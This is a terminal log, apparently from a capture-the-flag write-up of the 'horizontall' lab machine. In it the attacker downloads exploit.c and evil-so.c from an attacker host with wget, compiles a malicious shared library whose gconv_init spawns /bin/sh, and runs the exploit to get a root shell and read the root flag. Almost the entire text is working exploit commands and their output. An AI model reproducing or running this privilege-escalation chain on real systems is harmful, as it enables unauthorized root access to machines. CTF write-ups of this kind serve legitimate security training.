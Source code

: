 ``` bash
2022-02-05 15:46:22 (40.5 MB/s) - ‘exploit.c’ saved [614/614]

strapi@horizontall:~/H3X0S3$ wget http://10.10.16.14:9000/evil-so.c
wget http://10.10.16.14:9000/evil-so.c
--2022-02-05 15:46:45--  http://10.10.16.14:9000/evil-so.c
Connecting to 10.10.16.14:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 183 [text/x-csrc]
Saving to: ‘evil-so.c’

     0K                                                       100% 9.40M=0s

2022-02-05 15:46:47 (9.40 MB/s) - ‘evil-so.c’ saved [183/183]

strapi@horizontall:~/H3X0S3$ ll
ll
total 20
drwxrwxr-x  2 strapi strapi 4096 Feb  5 15:46 ./
drwxr-xr-x 13 strapi strapi 4096 Feb  5 15:44 ../
-rw-rw-r--  1 strapi strapi  183 Jan 26 01:01 evil-so.c
-rw-rw-r--  1 strapi strapi  614 Jan 26 01:01 exploit.c
-rw-rw-r--  1 strapi strapi  148 Jan 26 01:01 Makefile
strapi@horizontall:~/H3X0S3$ make
make
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function ‘gconv_init’:
evil-so.c:10:5: warning: implicit declaration of function ‘setgroups’; did you mean ‘getgroups’? [-Wimplicit-function-declaration]
     setgroups(0);
     ^~~~~~~~~
     getgroups
evil-so.c:12:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
     execve("/bin/sh", NULL, NULL);
     ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:25:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
     execve(BIN, argv, envp);
     ^~~~~~
strapi@horizontall:~/H3X0S3$ ./exploit
./exploit
id
uid=0(root) gid=0(root) groups=0(root)


id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
78392###########################
```

